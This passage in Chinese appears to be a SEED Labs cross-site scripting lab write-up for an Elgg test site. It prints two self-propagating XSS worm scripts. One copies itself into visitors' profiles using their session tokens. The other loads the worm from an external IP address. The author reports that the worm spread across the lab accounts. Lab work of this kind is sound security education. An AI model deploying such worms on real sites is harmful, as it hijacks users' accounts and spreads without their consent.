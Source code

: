 通过这个知识，我们来构建一个可以自我传播的xss攻击代码，也就是func中的前四行构造了一个拷贝，然后通过desc拼接，就能把这段恶意代码也放入其他访问者的个人信息中。  
```
<script type="text/javascript" id="worm">
window.onload = function() {
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  
  var Ajax = null;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var name = "&name=" + elgg.session.user.name;
  var desc = "&briefdescription=shanjiaping is 666666" + "&accesslevel[briefdescription]=2" + + wormCode;

  var sendurl = "http://www.seed-server.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 57){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```
老样子，还是把这段恶意代码放入boby的个人信息中。  

![](/web-security/img/xss-9.png)

通过试验，登陆alice访问了boby主页，在登陆admin访问alice主页。发现admin的个人信息也被修改了，说明实现了传播。   


**通过链接方法实现**

这种方式是把js代码放到了外部的url中，通过src链接到页面上。
```
shan@shan-GV62-8RC:~/下载/Labsetup/image_www/csp$ pwd
/home/shan/下载/Labsetup/image_www/csp

shan@shan-GV62-8RC:~/下载/Labsetup/image_www/csp$ vi xssworm.js
```
```
window.onload = function() {
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = "src=\"http://212.64.56.231/xssworm.js\">";
  var tailTag = "</" + "script>";

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  
  var Ajax = null;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var name = "&name=" + elgg.session.user.name;
  var desc = "&briefdescription=shanjiaping is 8888" + "&accesslevel[briefdescription]=2" + + wormCode;

  var sendurl = "http://www.seed-server.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 57){
      var Ajax = null;
```